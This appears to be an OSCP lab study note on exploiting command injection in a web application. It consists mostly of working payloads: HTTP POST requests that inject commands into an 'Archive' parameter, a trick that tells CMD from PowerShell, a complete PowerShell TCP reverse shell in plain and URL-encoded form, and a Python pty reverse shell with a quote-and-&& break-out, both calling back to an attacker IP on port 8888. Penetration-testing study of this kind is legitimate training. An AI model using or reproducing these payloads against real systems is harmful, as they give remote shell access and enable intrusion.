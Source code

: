 ```yaml
---
aliases: 
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - web_application
  - web_app
  - web_app_attack
  - command_injection
author: Mehdi N Tehrani
creat_date: 2023-12-23
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# powershell or cmd
#pwsh_or_cmd #cmd_or_pwsh #cmd_or_powershell #powershell_or_cmd
depending on which environment this command is run in, it outputs `CMD` or `PowerShell`:
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

1. Try `git version` to find out if the OS is Linux or Windows:
```http
POST /archive HTTP/1.1
Host: 192.168.190.189:8000
...
Referer: http://192.168.190.189:8000/
Upgrade-Insecure-Requests: 1

Archive=git%20version
```

2. Find out powershell or cmd is running the command:
```http
POST /archive HTTP/1.1
Host: 192.168.190.189:8000
...
Referer: http://192.168.190.189:8000/
Upgrade-Insecure-Requests: 1

Archive=git%20version%3B%28dir%202%3E%261%20%2A%60%7Cecho%20cmd%29%3B%26%3C%23%20rem%20%23%3Eecho%20pwsh
```
output:
```
Repository successfully cloned with command: git version;(dir 2>&1 *`|echo cmd);&<# rem #>echo pwsh and output: git version 2.36.1.windows.1
pwsh
```

3. URL-encode powershell reverse shell:
```sh
hURL -U '$c=new-object System.Net.Sockets.TcpClient(''192.168.45.216'', 8888); $s=$c.GetStream(); [byte[]]$b=0..65535|%{0}; while(($i=$s.Read($b,0,$b.length)) -ne 0){$d=(new-object System.Text.ASCIIEncoding).GetString($b,0,$i); $sb=(iex $d 2>&1|Out-String)+"PS $(pwd)> ";$sbb=([System.Text.Encoding]::ASCII.GetBytes($sb));$s.Write($sbb,0,$sbb.Length);$s.Flush()};$c.Close()'
```

4. get a reverse shell
```
Archive=git%20version%3B%24c%3Dnew-object%20System.Net.Sockets.TcpClient%28%22192.168.45.216%22%2C%208888%29%3B%20%24s%3D%24c.GetStream%28%29%3B%20%5Bbyte%5B%5D%5D%24b%3D0..65535%7C%25%7B0%7D%3B%20while%28%28%24i%3D%24s.Read%28%24b%2C0%2C%24b.length%29%29%20-ne%200%29%7B%24d%3D%28new-object%20System.Text.ASCIIEncoding%29.GetString%28%24b%2C0%2C%24i%29%3B%20%24sb%3D%28iex%20%24d%202%3E%261%7COut-String%29%2B%22PS%20%24%28pwd%29%3E%20%22%3B%24sbb%3D%28%5BSystem.Text.Encoding%5D%3A%3AASCII.GetBytes%28%24sb%29%29%3B%24s.Write%28%24sbb%2C0%2C%24sbb.Length%29%3B%24s.Flush%28%29%7D%3B%24c.Close%28%29dc
```


## Lab 3
in ffa field enter the following command to get a reverse shell:
```
" && python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.216",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' #
```